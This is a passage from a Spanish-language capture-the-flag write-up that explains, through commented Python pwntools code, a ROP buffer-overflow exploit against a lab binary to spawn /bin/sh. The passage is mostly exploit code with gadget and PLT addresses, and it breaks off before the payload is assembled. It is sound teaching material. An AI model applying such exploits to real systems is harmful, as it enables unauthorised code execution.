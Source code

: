 Una vez tenemos claro lo que hace la función **test** y lo que nosotros queremos hacer, pasaremos a crearnos el exploit el cual nos permitirá ejecutarnos una `/bin/sh`. Finalmente, el exploit en python de este **Buffer OverFlow** quedará tal que así:

> El exploit se encuentra explicado a través de comentarios.

```python
#!/usr/bin/env python3

# Exploit BOF vía: ROP

from pwn import *

context(os='linux', arch='amd64')

# Correr el binario myapp en una nueva pestaña de tmux usando gdb 
context(terminal=['tmux', 'new-window'])
p = gdb.debug("./myapp", "b *test") # Estableceremos el breakpoint donde queramos

# Conectarse al puerto 1337 donde se encuentra expuesto el binario myapp
# p = remote("10.10.10.147", 1337)

# El offset es de 120 por lo que tendríamos que meter 120 A's para probar el BOF pero como queremos que al prinicipio de la pila (RSP) esté la cadena "/bin/sh\x00" debemos de introducir 112 A's ya que /bin/sh\x00 tiene 8 bytes de longitud, es decir 120 - 8 = 112.
junk = b"A"*112 

# Guardamos en una variable la cadena "/bin/sh\x00" lo que finalmente guardaremos en RDI.
bin_sh = b"/bin/sh\x00"

# Buscaremos un Gadget que nos permita realizar un pop r13. Un pop básicamente lo que hace es meter un valor en la dirección indicada, en este caso r13.
# ❯ ropper -f myapp | grep "r13"
# 0x0000000000401206: pop r13; pop r14; pop r15; ret; 

pop_r13 = p64(0x401206)

# Como el gadget que nos permite realizar un pop r13 también realiza otras operaciones como un pop r14 o un pop r15 crearemos una variable que valga 0, es decir null.
null = p64(0x0)

# Obtendremos la dirección de memoria que hace una llamada a la función system()
# ❯ objdump -d myapp| grep system
# 0000000000401040 <system@plt>:
#  401040:  ff 25 da 2f 00 00       jmp    *0x2fda(%rip)        # 404020 <system@GLIBC_2.2.5>
#  40116e:  e8 cd fe ff ff          call   401040 <system@plt>

system_plt = p64(0x401040)

# Obtenemos la dirección de memoria que hace una llamada a la función test()
#❯ objdump -d myapp| grep test
#0000000000401152 <test>:

test = p64(0x401152)

# junk + bin_sh -> En el payload cargaremos en primer lugar 112 A's y luego 8 bytes pertenecientes a la cadena "/bin/sh\x00"

# pop_r13 -> Una vez hemos sobrepasado el offset todo lo que escribamos a continuación tendrá capacidad de ejecutarse, es decir tenemos control sobre el flujo del programa por lo que cargaremos la instrucción "pop r13" la cual nos permite guardar datos en "r13".

# system_plt + null + null -> Tras llamar a la instrucción "pop r13" seguidamente hemos de introducir el valor que queramos cargar en ella en este caso una llamada a "system()", y en en r14 y r15 null ya que no queremos cargar nada.
```